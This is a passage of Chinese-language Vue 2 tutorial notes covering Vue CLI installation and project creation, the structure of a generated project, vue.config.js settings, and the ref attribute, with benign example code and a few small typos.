	components:{App},
})
```

编写index.html页面，提供容器使用组件：

> 当前这个页面在浏览器不能正常运行，因为main.js中的import为es6语法，浏览器不支持解析es6语法。需要使用脚手架。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>练习一下单文件组件的语法</title>
	</head>
	<body>
		<!-- 准备一个容器 -->
		<div id="root"></div>
		<script type="text/javascript" src="../js/vue.js"></script>
		<script type="text/javascript" src="./main.js"></script>
	</body>
</html>
```

# 22.vue cli (脚手架)

## 1. Vue 脚手架(CLI)

Vue 脚手架(CLI)是 Vue 官方提供的标准化开发工具（开发平台）

> [Vue 脚手架(CLI)官网](https://cli.vuejs.org/zh/)

vue cli的特点：

1. 开箱即用
2. 基于 webpack
3. 功能丰富且易于扩展
4. 支持创建 vue2 和 vue3 的项目

## 2. Vue CLI 的安装

vue-cli 是基于 Node.js 开发出来的工具，因此需要使用 npm 将它安装为全局可用的工具。

### 2.1 全局安装 Vue CLI

> 如果出现下载缓慢可以将下载地址配置为淘宝镜像：
>
> ```bash
> npm config set registry https://registry.npm.taobao.org
> ```

```bash
npm i -g @vue/cli
```

### 2.2 检验是否安装成功

查看 Vue CLI 的版本，检验 Vue CLI 是否安装成功.

```bash
vue --version
```

或者

```bash
vue -V
```

> 能查看安装的 Vue CLI 的版本，即为安装成功。
> 

## 3. 使用 Vue CLI 创建项目

Vue CLI 提供了创建项目的两种方式：

1. 基于命令行的方式创建 vue 项目

   ```html
   vue create 项目名称
   ```

2. 基于可视化面板创建 vue 项目

   ```html
   vue ui
   ```

### 3.1 基于命令行的方式创建 vue 项目

基于命令行的方式创建 vue 项目，可以使用 Vue CLI 提供的默认预设，也可以自己手动进行预设的配置。

> 如果之前有自己手动进行预设的配置，并且将配置的预设进行保存，也可以选择直接使用之前的预设配置。


#### 3.1.1 使用 Vue CLI 提供的默认预设创建 vue2 项目

```html
vue create vue_my_test1
```

> 键盘上下箭头按键进行选择，enter确定选择


进入创建的项目的目录

```html
cd vue_my_test1
```


运行项目

```html
npm run serve
```


访问项目页面

```html
http://localhost:8080/
```


#### 3.1.2 手动配置预设创建 vue2 项目

##### 步骤1：在终端下运行 vue create 命令

```html
vue create vue_my_test2
```


##### 步骤2：选择要安装的功能


##### 步骤3：选择 vue 的版本


##### 由于选择安装的功能不同，接下来的选择个数会有所不同


##### 步骤5：使用上下箭头选择如何存储插件的配置信息

> 通常选择把插件的配置信息存储到单独的文件


##### 步骤6：是否将刚才的配置保存为预设

> 根据需要选择是否保存


##### 项目创建完成


##### 运行项目

```html
 cd vue_my_test2
 npm run serve
```


### 3.2 停止项目运行

停止项目运行: `ctrl + c`

### 3.3 基于可视化面板创建 vue 项目

进入可视化面板

```html
vue ui
```


#### 3.3.1 创建 vue2 项目


> 这里只演示手动配置项目


## 4. 分析脚手架创建的项目结构

> 以使用脚手架创建项目后自带的hello项目为例

### 4.1 项目文件目录


### 4.2 package.json


### 4.3 main.js

```js
/* 
	该文件是整个项目的入口文件
*/
//引入Vue
import Vue from 'vue'
//引入App组件，它是所有组件的父组件
import App from './App.vue'

//关闭vue的生产提示
Vue.config.productionTip = false

//创建Vue实例对象---vm
new Vue({
  // 将App组件放入容器中
  render: h => h(App),
// 指定vue控制的容器
}).$mount('#app')
```

#### 4.3.1 render()

在main.js中使用render()函数将App组件放入容器中，是由于在脚手架中默认引入的vue不是完整的vue，而是缺少模板解析器的vue。

> vue.js与vue.runtime.xxx.js的区别：
> (1).vue.js是完整版的Vue，包含：核心功能+模板解析器。
> (2).vue.runtime.xxx.js是运行版的Vue，只包含：核心功能；没有模板解析器。

> 模板解析器是用于解析vue配置项中的template配置项。将vue中的模板解析器去除后，可以节省项目的占用空间，同时也更加符合逻辑，因为项目构建后已经是浏览器可以解析的html、css、js等文件，不再需要模板解析器。


render()的完整写法：

```js
//创建Vue实例对象---vm
new Vue({
  // 将App组件放入容器中
  // 简写,由于此函数不需要使用this，可以写成箭头函数
  // 然后再对箭头函数进行简写
  // render: h => h(App),
  
  // 完整写法
  render(createElement) {
    // render函数接收一个创建页面元素的createElement函数，
    // 用于创建页面元素
    // render()函数将创建的元素返回，再将其放入容器中
    return createElement(App)
  }
// 指定vue控制的容器
}).$mount('#app')
//创建Vue实例对象---vm
new Vue({
  // 将App组件放入容器中
  // 简写,由于此函数不需要使用this，可以写成箭头函数
  // 然后再对箭头函数进行简写
  // render: h => h(App),
  
  // 完整写法
  // render(createElement) {
    // render函数接收一个创建页面元素的createElement函数，
    // 用于创建页面元素
    // render()函数将创建的元素返回，再将其放入容器中
    // return createElement(App)
  // }

  render(createElement) {
    // 创建返回 <h1>hello world</h1>
    return createElement('h1', 'hello world')
  }
// 指定vue控制的容器
}).$mount('#app')
```

> 

App组件外的其他组件使用模板`<template>`标签能够被放入页面，是由于vue脚手架为其配置了模板编译的第三方包。


### 4.4 App.vue

```html
// 框架
<template>
  <div id="app">
    
    <HelloWorld msg="Welcome to Your Vue.js App"/>
  </div>
</template>

// 交互
<script>
//引入组件
import HelloWorld from './components/HelloWorld.vue'

// 向外默认导出本组件
export default {
  name: 'App',
  components: {
    HelloWorld
  }
}
</script>

// 样式
<style>
#app {
  font-family: Avenir, Helvetica, Arial, sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
  text-align: center;
  color: #2c3e50;
  margin-top: 60px;
}
</style>
```

### 4.5 index.html

```html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!-- 针对ie浏览器的一个特殊配置，让ie浏览器以最高的渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!-- 开启移动端的理想视口 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!-- 配置页签图标  <%= BASE_URL %> 表示public文件夹所在的路径，防止项目部署后出现路径的错误-->
    <!-- 所以在该html文件中路径不使用 ./ ../ -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!-- 网页的标题(读取package.json中的name属性作为标题) -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 浏览器不支持js，页面会显示noscript标签中的内容；支持js则不渲染noscript标签中的内容 -->
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <!-- 提供的容器 -->
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```

> `<%= htmlWebpackPlugin.options.title %>` 会到项目的package.json文件中寻找项目的name配置项
> 

## 5. 修改默认配置

### 5.1 查看项目的默认配置

Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置，终端运行：

```html
vue inspect > output.js
```


### 5.2 修改项目的默认配置

> 可以修改的配置项以及如何修改可以参考官网：
> [Vue CLI 官网 配置参考](https://cli.vuejs.org/zh/config/)

在项目文件夹下新建 vue.config.js 文件，要修改的配置项都写在该文件中。vue脚手架会将修改的配置项**与默认的配置项进行整合。**


> 只要在 vue.config.js 文件中修改了配置项，就要重新启动项目。
> vue.config.js 文件中不能什么配置都不写，要么不创建 vue.config.js 文件，要么创建了 vue.config.js 文件就要写配置项，至少一个。

#### 5.2.1 修改入口文件名

```js
// 使用 @vue/cli-service 提供的 defineConfig 帮手函数，以获得更好的类型提示
// vue.config.js
const { defineConfig } = require('@vue/cli-service')

module.exports = defineConfig({
  // 选项
  pages: {
    index: {
      // 入口
      entry: 'src/my_main.js'
    }
  }
})
```

> 

#### 5.2.2 关闭代码语法检查

```js
// 使用 @vue/cli-service 提供的 defineConfig 帮手函数，以获得更好的类型提示
// vue.config.js
const { defineConfig } = require('@vue/cli-service')

module.exports = defineConfig({
  // 选项
  pages: {
    index: {
      // page 的入口
      entry: 'src/my_main.js'
    }
  },
  // 关闭语法检查
  lintOnSave: false
})
```

# 23.ref属性

------

ref 属性被用来给元素或子组件注册引用信息（id的替代者），相当于对页面元素或子组件标识，使用 ref 属性标识页面元素或子组件之后，被标识的元素或子组件会被所在的组件实例对象收集，挂载在所在组件实例对象的`$ref`属性上。

## 1 ref 属性的使用方式

### 1.1 标识元素或子组件

标记 html 标签元素：

```html
<h1 ref="xxx">.....</h1>
```

标记子组件：

```html
<School ref="xxx"></School>
```

### 1.2 获取标识的元素或子组件

```js
this.$refs.xxx
```

> 其中，this为被标记的元素或子组件所在的组件实例对象。

## 2 使用 ref 属性标记 html 标签元素

ref 属性应用在 html 标签元素上，获取的是对应的真实 DOM 元素

```html
<template>
  <div>
    <h1 ref="hello">Hello World</h1>
    <button @click="showH1">showH1</button>
  </div>
</template>

<script>
export default {
  name: 'App'
  methods: {
    showH1() {
      console.log(this.$refs.hello)
      console.log(this.$refs)
    }
  }
}
</script>

<style>

</style>
```

> 

## 3 使用 ref 属性标记子组件

ref 属性应用在组件标签上，获取的是对应组件实例对象

MySchool组件：

```html
<template>
  <div class="demo">
    <h2>学校：{{name}}</h2>
    <h2>地址：{{address}}</h2>
  </div>
</template>

<script>
export default {
  name: 'MySchool',
  data() {
    return {
      name: 'SGG',
      address: 'Beijing'
    }
  },
}
</script>

<style>
  .demo {
    background-color: chocolate;
  }
</style>
```

App组件：

```html
<template>
  <div>
    <h1 ref="hello">Hello World</h1>
    <MySchool ref="myschool"></MySchool>
    <button @click="showH1">showH1</button> <br><br>
    <button @click="showMySchool">showMySchool</button>
  </div>
</template>

<script>
// 导入子组件
import MySchool from './components/MySchool.vue'

export default {
  name: 'App',
  components: {
    MySchool,
  },
  methods: {
    showH1() {
      console.log(this.$refs.hello)
      console.log(this.$refs)
    },
    showMySchool() {
      console.log(this.$refs.myschool)
      console.log(this.$refs)
    }
  }
}
</script>

<style>

</style>
```

> 

## 4 使用 id 获取元素或子组件

```html
<template>
  <div>
    <h1 ref="hello" id="hh">Hello World</h1>
    <MySchool ref="myschool" id="school"></MySchool>
    <button @click="showH1_School">showH1_School</button>
  </div>
</template>

<script>
// 导入子组件
import MySchool from './components/MySchool.vue'

export default {
  name: 'App',
  components: {
    MySchool
  },
  methods: {
    showH1_School() {
      console.log(document.getElementById('hh'))
      console.log(document.getElementById('school'))
    }
  }
}
</script>

<style>
</style>
```

> 

使用 ref 属性和使用 id 进行对比，使用 ref 属性不用自己操作 DOM 元素，**且使用 ref 属性获取子组件时**，**获取的为整个组件实例对象**而不是子组件编译解析后的模板，有利于后期对子组件进行操作。
